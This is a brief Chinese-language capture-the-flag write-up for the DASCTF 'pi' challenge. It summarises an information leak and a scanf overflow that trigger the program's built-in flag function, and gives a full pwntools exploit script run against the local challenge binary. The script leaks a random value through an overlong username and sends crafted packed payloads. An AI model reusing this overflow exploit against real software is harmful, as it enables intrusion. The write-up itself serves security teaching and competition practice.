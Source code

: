 ```yaml
---
author:AngryCanary
tag:WriteUp
layout:post
---
```


# DASCTF-PI WriteUp

## 核心利用点

>信息泄露:  利用 程序输入函数的逻辑BUG 溢出 粘连 出有价值信息
>
>GetShell: 未GetShell
>
>GetFlag: 程序自带GetFlag。利用Scanf溢出触发

## 程序内容

![text1]({{ site.url }}/assets/pi/text1.png)

![text2]({{ site.url }}/assets/pi/text2.png)

![text3]({{ site.url }}/assets/pi/text3.png)

![text4]({{ site.url }}/assets/pi/text4.png)

![text5]({{ site.url }}/assets/pi/text5.png)

## Exploit

```python
from pwn import*

p = process("./pi")

context.arch = "amd64"

payload1 = "a" * 0xd0

p.sendlineafter("Username:",payload1)

p.recvuntil("a"*64)

radnum = int(p.recv(10),10)

p.sendlineafter("Passcode:",str(radnum)+p64(0)+p64(8)+p64(0x88)*20)

p.sendline("4632251120704552960") #Which OverFLow The Float.

p.interactive()
```

